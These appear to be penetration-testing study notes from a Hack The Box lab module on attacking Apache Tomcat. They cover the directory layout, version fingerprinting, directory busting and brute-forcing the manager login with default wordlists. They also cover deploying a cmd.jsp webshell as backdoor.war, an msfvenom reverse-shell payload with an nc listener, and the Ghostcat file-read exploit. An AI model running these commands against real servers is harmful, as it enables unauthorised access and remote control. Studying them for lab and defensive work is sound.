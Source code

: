 ## Info

**Manager**:`/manager`

```jsx
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
        └── localhost
```

The `bin` folder stores scripts and binaries needed to start and run a Tomcat server. The `conf` folder stores various configuration files used by Tomcat. The `tomcat-users.xml` file stores user credentials and their assigned roles. The `lib` folder holds the various JAR files needed for the correct functioning of Tomcat. The `logs` and `temp` folders store temporary log files. The `webapps` folder is the default webroot of Tomcat and hosts all the applications. The `work` folder acts as a cache and is used to store data during runtime.

Each folder inside `webapps` is expected to have the following structure.

```
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class

```

The most important file among these is `WEB-INF/web.xml`

```
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE web-app PUBLIC "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN" "http://java.sun.com/dtd/web-app_2_3.dtd">

<web-app>
  <servlet>
    <servlet-name>AdminServlet</servlet-name>
    <servlet-class>com.inlanefreight.api.AdminServlet</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/admin</url-pattern>
  </servlet-mapping>
</web-app>
```

All compiled classes used by the application should be stored in the WEB-INF/classes folder. These classes might contain important business logic as well as sensitive information. Any vulnerability in these files can lead to total compromise of the website. The lib folder stores the libraries needed by that particular application. The jsp folder stores Jakarta Server Pages (JSP), formerly known as JavaServer Pages, which can be compared to PHP files on an Apache server.

The `tomcat-users.xml` file is used to allow or disallow access to the `/manager` and `host-manager` admin pages.

The file shows us what each of the roles `manager-gui`, `manager-script`, `manager-jmx`, and `manager-status` provide access to.

## Enumeration

**Version Fingerprinting**

`L3pr3ch4un@htb[/htb]$ curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat`

**Directory Busting**

`L3pr3ch4un@htb[/htb]$ gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`

**Login Brute forcing**

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

`Wordlists`

- User: /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
- Pass: /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt

**Code Execution**

Shell:`https://github.com/SecurityRiskAdvisors/cmd.jsp`

![](https://academy.hackthebox.com/storage/modules/113/vt2.png)

```
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backdoor.war cmd.jsp 
```

This file is uploaded to the manager GUI, after which the `/backdoor` application will be added to the table.

[!bash!]$ curl http://web01.inlanefreight.local:8180/backup/backdoor.jsp?cmd=id

**Reverse Shell**

```
[!bash!]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backdoor.war
```

Listner: `nc -lnvp 4443`

**Automation**

`exploit/multi/http/tomcat_mgr_upload/`

## Vulnerabilities

**CVE-2020-1938 : Ghostcat**

- Versions before 9.0.31, 8.5.51, and 7.0.100
- https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi
- `[!bash!]$ python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml`
